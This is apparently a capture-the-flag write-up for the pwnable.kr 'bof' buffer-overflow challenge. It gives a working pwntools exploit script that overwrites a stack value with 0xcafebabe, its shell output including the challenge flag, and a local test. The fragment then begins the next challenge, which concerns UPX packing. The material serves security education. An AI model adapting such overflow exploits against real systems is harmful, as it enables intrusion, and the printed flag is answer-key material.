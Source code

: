 Testing our payload we can see it works:

```
pwndbg> x $ebp+8
0xffffd630:     0x42424242
```

<br>

```python
from pwn import p32, remote

io = remote("pwnable.kr", 9000)
payload = b"A"*52 + p32(0xcafebabe)
io.sendline(payload)
io.interactive()
```

```
$ p solve.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```

Local test:

```
[~/Desktop] 
$ cat payload.py 
from pwn import *
import sys
payload = b"A"*52 + p32(0xcafebabe)
sys.stdout.buffer.write(payload)

[~/Desktop] 
$ (python payload.py; cat)  | ./bof 
overflow me : 

whoami
connor
```


# flag - pwnable.kr

> Ultimate Packer for Executables (UPX) is an open-source packer that can reduce the file size of an executable drastically (better than Zip files)
